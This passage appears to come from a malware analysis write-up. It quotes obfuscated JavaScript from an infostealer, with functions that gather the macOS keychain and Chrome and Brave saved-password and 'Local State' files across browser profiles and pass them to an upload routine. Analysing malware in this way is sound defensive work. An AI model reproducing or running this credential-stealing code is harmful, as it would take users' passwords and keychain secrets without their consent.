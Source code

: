 ```javascript
              });
            } else {
              fs.copyFile(_0x45aed9, _0x21ef3f, _0x558ba6 => {
                const _0x847bb6 = {
                  filename: 'brld_' + _0x16606d
                };
                let _0x42cb36 = [{
                  'value': fs.createReadStream(_0x45aed9),
                  'options': _0x847bb6
                }];
                Upload(_0x42cb36, _0x35b03f);
              });
            }
          } catch (_0xddacc3) {}
        }
      }
    } catch (_0x37e2a1) {}
    Upload(_0x51cdd4, _0x35b03f);
    return _0x51cdd4;
  };
```
This function, ```UpKeychain```, is clearly designed to extract sensitive data from a macOS system, specifically:
1. macOS Keychain (```login.keychain```)
2. Chrome and Brave "Login Data" (stored passwords)
3. Exfiltrate them via the ```Upload``` function

<hr style="border: none; border-top: 1px solid #ccc;">

And, as expected, it eventually leads to stealing browser user data through the UpUserData function:
```javascript
const UpUserData = async (_0x2a5619, _0x52fc61, _0x34becb) => {
    let _0x2fff59 = [];
    let _0x4bca26 = '';
    _0x4bca26 = 'd' == platform[0] ? getAbsolutePath('~/') + "/Library/Application Support/" + _0x2a5619[1] : 'l' == platform[0] ? getAbsolutePath('~/') + "/.config/" + _0x2a5619[2] : getAbsolutePath('~/') + "/AppData/" + _0x2a5619[0] + "/User Data";
    let _0x5d849e = _0x4bca26 + "/Local State";
    if (fs.existsSync(_0x5d849e)) {
      try {
        const _0x420d81 = {
          filename: _0x52fc61 + "_lst"
        };
        _0x2fff59.push({
          'value': fs.createReadStream(_0x5d849e),
          'options': _0x420d81
        });
      } catch (_0x531e9d) {}
    }
    try {
      if (testPath(_0x4bca26)) {
        for (let _0x339883 = 0; _0x339883 < 200; _0x339883++) {
          const _0x12e0e1 = _0x4bca26 + '/' + (0 === _0x339883 ? "Default" : "Profile " + _0x339883);
          try {
            if (!testPath(_0x12e0e1)) {
              continue;
            }
            const _0x42e5b4 = _0x12e0e1 + "/Login Data";
            if (!testPath(_0x42e5b4)) {
              continue;
            }
            const _0x5e65cd = {
```